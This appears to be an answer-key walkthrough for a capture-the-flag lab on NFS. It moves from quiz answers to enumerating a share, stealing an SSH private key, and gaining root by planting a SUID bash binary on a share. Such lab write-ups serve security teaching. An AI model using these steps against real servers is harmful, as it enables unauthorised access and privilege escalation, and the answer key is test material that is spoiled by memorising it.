 # Network Services 2 (Draft)

Difficulty: Easy

## Task 1 - Get Connected

- Ready? Let's get going!

	  no answer needed

## Task 2 - Understanding NFS

- What does NFS stand for?

	- `Network File System`

- What process allows an NFS client to interact with a remote directory as though it was a physical device?

	- `Mounting`

- What does NFS use to represent files and directories on the server?

	- `file handle`

- What protocol does NFS use to communicate between the server and client?

	- `rpc`

- What two pieces of user data does the NFS server take as parameters for controlling user permissions? Format: parameter 1 / parameter 2

	- `user id / group id`

- Can a Windows NFS server share files with a Linux client? (Y/N)

	- `Y`

- Can a Linux NFS server share files with a MacOS client? (Y/N)

	- `Y`

- What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.

	- `*.2`

## Task 3 - Enumerating NFS

- Conduct a thorough port scan of your choosing, how man ports are open?

	- `nmap -p- -A <TARGET_IP>`
	- `7`
	
- Which port contains the service we're looking to enumerate?

	- `2049`
	
- Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?

	- `/home`
	
- First, use *"mkdir /tmp/mount"* to create a directory on your machine to mount the share to. This is in the /tmp directory- so be aware that it will be removed on restart. Then, use the mount command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?	
	
	- `sudo mount -t nfs <TARGET_IP>:/**** /tmp/mount -nolock`
	- `cappucino`
	
- Have a look inside this directory, look at the files. Looks like  we're inside a user's home directory...

	  no answer needed

- Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?

	- `.ssh`

- Which of these keys is most useful to us?

	- `id_rsa`

- Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)

	- `chmod 600 id_rsa`
	- `ssh -i id_rsa *********@<TARGET_IP>`
	- `Y`
	
## Task 4 - Exploiting NFS

- First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

	  no answer needed

- Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

	  no answer needed

- Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?

	- `s`

- Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.

	- `-rwsr-sr-x`

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

	  no answer needed

Great! If all's gone well you should have a shell as root! What's the root flag?

	- `********************`
